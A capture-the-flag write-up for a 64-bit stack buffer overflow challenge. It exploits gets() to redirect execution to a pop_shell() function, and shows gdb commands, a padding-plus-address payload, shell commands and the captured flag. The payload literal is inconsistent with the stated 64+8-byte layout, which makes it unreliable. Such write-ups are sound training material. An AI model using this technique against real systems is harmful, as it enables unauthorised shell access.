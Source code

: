 ### **Challenge Name: Exploit 100 - A Finer Token Never Was**

---

### **Description**

Here's a simple exploit challenge for you. There's a little bit of a twist to make sure it's not too easy, but it's otherwise a straightforward challenge.

#### **Target**  
`35.184.182.18 32002`

#### **Files Provided**  
- [Exploit100-1](Resources/Exploit100-1)  
- [Exploit100-1.c](Resources/Exploit100-1.c)

---

### **Approach**

#### **Step 1: Analyze the Source Code**
Examined `Exploit100-1.c` and identified a **buffer overflow vulnerability** due to the use of `gets()` without size constraints. 

#### **Step 2: Identify Vulnerable Function**
Located the function to exploit:  

```c
void pop_shell() {
    system("/bin/sh");
}
```

The goal is to overwrite the return address on the stack with the address of `pop_shell()`.

#### **Step 3: Find the Address of `pop_shell()`**
Used **gdb** to find the address of `pop_shell()`:

```bash
gdb Exploit100-1
(gdb) disassemble pop_shell
```

Result:  
`pop_shell()` is located at `0x0000000000401152`.

#### **Step 4: Construct Payload**
Calculated the buffer size:  
- Buffer: 64 bytes  
- Saved register space: 8 bytes  

Payload structure:  
`<64 'A's><8 'B's><Address of pop_shell()>`

Payload in little-endian format:  
```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbb\x52\x11\x40
```

#### **Step 5: Exploit the Target**
Wrote the payload to a script (`payload.py`) to send it to the target. This executed the `pop_shell()` function and provided shell access.

#### **Step 6: Retrieve the Flag**
Navigated the shell to locate and read the flag:

```bash
ls
cd home
cd Exploit100-1
ls
cat Exploit100-1.txt
```

Output:  
`poctf{uwsp_411_4n1m4l5_4r3_3qu41}`

---

### **Flag**

`poctf{uwsp_411_4n1m4l5_4r3_3qu41}`

---